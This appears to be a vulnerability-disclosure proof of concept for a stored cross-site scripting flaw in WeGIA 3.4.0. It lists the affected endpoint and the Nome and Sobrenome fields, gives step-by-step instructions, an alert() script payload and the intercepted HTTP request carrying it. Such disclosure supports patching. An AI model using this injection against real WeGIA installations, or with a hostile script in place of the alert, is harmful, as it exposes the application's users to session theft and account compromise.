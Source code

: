 VIDEO POC: https://youtu.be/BCqqmDk0pH8

📄 PoC for Exploitation: Stored XSS in WeGIA 3.4.0
Vulnerability Type: Stored Cross-Site Scripting (XSS)

Affected Application: WeGIA 3.4.0

Vulnerable Endpoint: /html/atendido/Cadastro_Atendido.php?cpf={CPF}

Vulnerable Parameters: Nome and Sobrenome

Impact: Persistent execution of arbitrary JavaScript code in the context of the application

🔧 Step-by-step PoC for Stored XSS in WeGIA
1 - Log in to the platform.

![image](https://github.com/user-attachments/assets/64fd1586-9787-4d70-a9a2-2ada710fc98a)
![image](https://github.com/user-attachments/assets/b9839e9f-e4ef-43b4-8291-dade94ffcf67)

Access the application with valid credentials.

2 - Go to the page /html/atendido/pre_cadastro_atendido.php and register a new user.
Insert a valid CPF (you can use an online Brazilian CPF generator) and proceed to pre-register the user.

![image](https://github.com/user-attachments/assets/4a5ce371-cbbd-41e3-8e2e-790a88ca4333)
![image](https://github.com/user-attachments/assets/303e8f1a-5b02-4f61-b220-881ba00b9478)

3 - Go to the page /html/atendido/Cadastro_Atendido.php?cpf={CPF} and insert the following payload in the "Nome" and "Sobrenome" fields, then click "Enviar":

<script>alert('Poc VulDBeeee')</script>
![image](https://github.com/user-attachments/assets/5bbca0e7-bf6f-4018-bebd-07de2051a6a6)
![image](https://github.com/user-attachments/assets/84adf54c-4550-466a-bc3b-1c7460343df4)
![image](https://github.com/user-attachments/assets/edd43c56-972e-4daf-864c-308a2c474c26)


4 - The HTTP request, if intercepted using a proxy such as Burp Suite, will look like this:

**#GET /WeGIA/controle/control.php?nome=%3Cscript%3Ealert%28%27PoC+VulDB%27%29%3C%2Fscript%3E&sobrenome=%3Cscript%3Ealert%28%27PoC+VulDB%27%29%3C%2Fscript%3E&sexo=m&telefone=%2899%2927199-81&nascimento=2000-10-10&intStatus=3&intTipo=1&nomeClasse=AtendidoControle&cpf=040.550.340-75&metodo=incluir HTTP/1.1**
**#Host: sec.wegia.org:8000**
**#Cookie: PHPSESSID=...**
**#User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)**
**#Referer: https://sec.wegia.org:8000/WeGIA/html/atendido/Cadastro_Atendido.php?cpf=CPF**

5 - Go to “Pessoas” > “Atendidos” > “Cadastrar ocorrência”.

![image](https://github.com/user-attachments/assets/a5696a46-f608-40ba-a9ae-9817b7a61921)

This section loads the stored data of the registered person.

6 - The JavaScript payload will be executed every time the page /html/atendido/cadastro_ocorrencia.php is accessed, confirming that the application is vulnerable to Stored XSS.

![image](https://github.com/user-attachments/assets/24de9736-66ad-42ec-97bd-01dd8d097d6f)

